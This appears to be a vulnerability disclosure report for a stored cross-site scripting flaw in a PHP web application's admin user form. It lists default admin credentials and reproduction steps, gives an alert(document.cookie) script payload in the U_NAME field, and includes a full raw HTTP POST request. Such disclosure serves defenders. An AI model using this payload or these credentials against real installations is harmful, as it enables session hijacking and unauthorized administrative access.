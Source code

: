 BUG_Author: heitaoa999

Vulnerability url: /philosophy/admin/user/controller.php?action=add

POST parameter 'U_NAME' exists Stored Cross Site Scripting

### Steps to reproduce

1. Go to the admin Dashboard

http://localhost/philosophy/admin/login.php

System Admin Access information:

Username: janobe
Password: admin

2. Click on Users and Click on + News and select User

![image](https://github.com/heitaoa999/bug_report/blob/main/pictures/xss1.png)

3. Put Payload into the 'Account Name' parameter.

Payload:<script>alert(document.cookie)</script>

![image](https://github.com/heitaoa999/bug_report/blob/main/pictures/xss2.png)

4. Click on Save

Transmission packet

```
POST /philosophy/admin/user/controller.php?action=add HTTP/1.1
Host: localhost
Content-Length: 133
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/philosophy/admin/user/index.php?view=add
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=erriivuolh0rb2ucknp2nmpolf
Connection: close

deptid=&U_NAME=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&deptid=&U_USERNAME=a&deptid=&U_PASS=b&U_ROLE=Administrator&save=
```

5. Payload will trigger when a user visits on http://localhost/philosophy/admin/user/index.php

![image](https://github.com/heitaoa999/bug_report/blob/main/pictures/xss3.png)
